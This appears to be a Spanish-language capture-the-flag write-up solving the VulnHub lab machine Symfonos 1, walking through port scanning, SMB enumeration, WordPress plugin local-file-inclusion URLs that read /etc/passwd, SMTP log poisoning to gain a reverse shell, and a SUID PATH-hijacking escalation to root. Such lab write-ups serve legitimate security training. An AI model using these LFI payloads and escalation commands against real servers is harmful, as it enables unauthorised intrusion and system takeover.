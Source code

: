 # VulnHub - Symphonos: 1 Writeup

## Primer paso: Excaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```

![Consola](img/1.png)

En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255
```

![Consola](img/2.png)

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.131: Es la única máquina que queda, además tiene abiertos los puertos 22, 25, 80, 139 y 445.

Ahora que tenemos la máquina identificada, actualizamos el archivo /etc/hosts como indica el autor de la máquina virtual:
```bash
sudo nano /etc/hosts
```
![Consola](img/3.png)


En estos puertos corren los siguientes servicios:

- 22: ssh, sirve para conectarse al servidor
- 25: smtp, protocolo para la transferencia simple de correo
- 80: http, es una página web
- 139: netbios-ssn Netwoek Basic Input Output, comunica las aplicaciones web con el hardware
- 445: microsoft-ds, es usado por SMB (Server Message Block), un protocolo para compartir recursos en una red.

Dado que tenemos corriendo servicios que según su versión pueden ser vulnerables, correremos el siguiente comando:


```bash
sudo nmap -vvv -sV -sC 192.168.226.131 -p 22,25,80,139,445 -n -Pn -oN escaneo
```

Las flags empleadas realizarán lo siguiente:
- vvv: Proporciona los resultados por pantalla según se encuentren
- sV: Muestra la versión del servicio corriendo en el puerto
- sC: Corre contra esos servicios scripts predeterminados
- p: Los puertos a escanear
- n: Indica que no se debe de realizar la resolución DNS
- Pn: Le decimos a nmap que el host está encendido, por lo que no debe de comprobarlo previamente.
- oN: Guarda la salida en un archivo llamado escaneo

Tendremos ahora toda la información en el archivo escaneo:

![Consola](img/4.png)

Con lo cual, procedemos a clasificarla:


| Puerto   | Servicio     | Versión              |
|----------|--------------|----------------------|
| 22/tcp   | ssh          | OpenSSH 7.4          |
| 25/tcp   | smtp         | -                    |
| 80/tcp   | http         | Apache httpd 2.4.25  |
| 139/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X |
| 445/tcp  | netbios-ssn  | Samba smbd 4.5.16    |


A través del navegador se puede acceder a la página web:

![Consola](img/5.png)

Aunque no proporciona información.

Intentaremos acceder a través de Samba, para ello podemos usar la herramienta enum4linux

```bash
enum4linux 192.168.226.131
```

Al correrlo sin ninguna flag proporciona más información:

![Consola](img/6.png)

Obtenemos un usuario llamado helios y tres directorios compartidos, siendo accesible sin identificarse el directorio de 192.168.226.131/anonymous.

Nos conectamos a este directorio a través del comando:

```bash
smbclient //192.168.226.131/anonymous
```

Y podremos acceder al terminal de Samba:

![Consola](img/7.png)

La consola de Samba no permite leer el archivo directamente, pero se puede descargar y examinar su contenido en local:

![Consola](img/8.png)

Ahora sabemos que hay un usuario helios y la indicación de no usar tres contraseñas:

- epidioko
- qwerty
- baseball

Probamos a entrar al directorio de helios con las contraseñas:

```bash
smbclient //192.168.226.131/helios -U helios
```

En este caso la contraseña es qwerty.

![Consola](img/9.png)

Hay dos archivos, los descargamos y examinamos:

![Consola](img/10.png)

Lo único interesante es el punto 3 del archivo todo.txt. Es un subdirectorio de la página web que posee el servidor:

![Consola](img/11.png)

Es una página web WordPress, por lo que la analizamos con WPScan:

```bash
wpscan --url http://symfonos.local/h3l105/ --api-token TOKEN_API
```

*Para obtener el TOKEN_API hay que registrarse en [WPScan](https://wpscan.com/)

Obtenemos mucha información, al ser este un WordPress desactualizado.

![Consola](img/12.png)

Con el objetivo de querer tomar el control del servidor web, hay que encontrar alguna vulnerabilidad de "Local File Inclusion":

![Consola](img/13.png)
![Consola](img/14.png)

Encontramos dos, de dos plugins distintos. Después de explorar en exploit-db el proof of concept, vemos que su uso es similar:

- http://<host>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
- http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

Empleando cualquiera de los enlaces superiores, se puede acceder al archivo /etc/passwd del servidor:

![Consola](img/15.png)

Como no se puede acceder con esta vulnerabilidad al archivo /etc/shadow, no es factible un ataque por fuerza bruta con john the ripper.

Aun así, se puede escalar un "Local File Inclusion" a un "Remote Code Execution". Para ello, buscamos un archivo al que hacerle "SMTP log poisoning". Este archivo se encontrará en /var/mail/helios. Para poder modificar su contenido, nos conectaremos al puerto 25 de la máquina víctima.

```bash
telnet 192.168.226.131 25
```

![Consola](img/16.png)

 Un ejemplo de cómo funciona este comando se encuentra en [Este enlace](http://www.unixcook.com/old-unix-docs/MIX-UNIX/smtp.txt)

 Comprobamos que el comando funciona:

![Consola](img/17.png)

Y entramos en [RevShells](https://www.revshells.com/) para crear nuestra reverse shell. En este caso a mi me funcionó la siguiente configuración:

![Consola](img/18.png)

Entraremos con el usuario helios, pero no en una tty, por lo que hacemos lo siguiente:

1. script /dev/null -c bash
2. Ctrl + z
3. stty raw -echo; fg
4. reset xterm

Ahora, al introducir el comando tty nos devolverá /dev/pts/0

Para el escalado, se puede usar un path hijacking, para ello buscaremos todos los archivos que puede ejecutar un usuario normal con permiosos:

```bash
find / -perm -4000 2>/dev/null
```
- find es el comando para buscar
- - / indica que busque en todo el sistema de archivos
- - -perm Es para que devuelva resultados según el permiso del archivo
- - -4000 Es para archivos que se pueden ejecutar sin permisos pero tienen permisos de root
- 2> Redirige todos los errores (archivos que no cumplen estas condiciones)
- - /dev/null es una carpeta que siempre está vacía, para no guardar lo que entra

![Consola](img/19.png)

Ahora, revisaremos con strings cada uno de estos archivos, debemos encontrar en uno tanto 'system' como un comando al que realizar el path hijacking.

![Consola](img/20.png)

1. echo /bin/sh > /tmp/curl
2. chmod 4777 /tmp/curl
3. export PATH=/tmp:$PATH
4. /opt/statuscheck

 ![Consola](img/21.png)

Con esto ya tendremos acceso de root y podremos ver la flag:

![Consola](img/22.png)
